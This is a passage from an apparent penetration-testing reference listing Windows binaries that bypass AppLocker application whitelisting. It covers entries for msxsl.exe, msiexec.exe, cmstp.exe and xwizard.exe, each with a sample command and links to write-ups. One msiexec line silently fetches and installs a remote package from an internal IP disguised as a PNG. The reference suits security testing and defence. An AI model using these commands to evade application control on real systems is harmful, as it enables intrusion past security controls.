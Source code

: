 Notes:

Links:  
https://pentestlab.blog/2017/05/24/applocker-bypass-control-panel/
https://www.contextis.com/resources/blog/applocker-bypass-registry-key-manipulation/



## 21. msxsl.exe

`msxsl.exe customers.xml script.xsl`

Requires admin: No  
Windows binary: No  
Bypasses AppLocker Default rules: ?  

Notes:

Links:  
https://pentestlab.blog/2017/07/06/applocker-bypass-msxsl/
https://gist.github.com/subTee/d9380299ff35738723cb44f230ab39a1



## 22. msiexec.exe

`msiexec /quiet /i cmd.msi`
`msiexec /q /i http://192.168.100.3/tmp/cmd.png`

Requires admin: ?  
Windows binary: Yes  
Bypasses AppLocker Default rules: ?  

Notes:

Links:  
https://pentestlab.blog/2017/06/16/applocker-bypass-msiexec/


## 23. cmstp.exe

`cmstp.exe /ni /s c:\cmstp\CorpVPN.inf`

Requires admin: No  
Windows binary: Yes  
Bypasses AppLocker Default rules: ?  

Notes:

Links:  
https://msitpros.com/?p=3960
https://gist.github.com/api0cradle/cf36fd40fa991c3a6f7755d1810cc61e


## 24. xwizard.exe

`xwizard.exe argument1 argument2`
DLL loading in same folder xwizard.dll
